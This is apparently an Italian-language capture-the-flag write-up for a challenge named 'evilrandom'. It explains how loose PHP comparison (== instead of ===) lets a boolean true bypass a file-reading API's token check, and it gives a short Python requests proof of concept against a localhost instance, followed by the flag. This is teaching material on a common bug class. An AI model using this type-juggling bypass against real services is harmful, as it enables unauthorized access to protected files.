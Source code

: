 # Evil Random (`evilrandom`)

La challenge espone un sito web che implementa una `API` che legge dei file in una cartella `/files`.
Non vengono date guide di utilizzo o documentazioni, ma abbiamo il codice, che letto fa capire come fare le richieste, che sono dei json strutturati in questo modo:

```json
{
    'file': 'esempio',
    'token': 'abcdefg',
    'lines': 5
}
```

e otteniamo delle risposte di questo tipo:

```json
{
    'text':'contenuto',
    'length':100
}
```

Il problema è che per leggere più di 5 righe serve il **token**, che non abbiamo.

A questo punto il passaggio cruciale è accorgersi che la comparazione fra l'input dell'utente e il token è fatta con un ==, e non con un ===, rendendola vulnerabile a PHP type juggling.

![vuln](vuln.png)

Nello specifico, su PHP una stringa qualsiasi == `true`, quindi è sufficiente utilizzare `true` come token sul file `flag.txt` per ottenere la flag intera.

```python
import requests
d = {
    'file': 'flag.txt',
    'token': True,
    'lines': 100
}
r = requests.post("http://localhost:8002/", json=d)
print(r.text)
```

Flag: `rossiCTF{PHP_7yP35_4r3_H1l4r10u5_41e9c8}`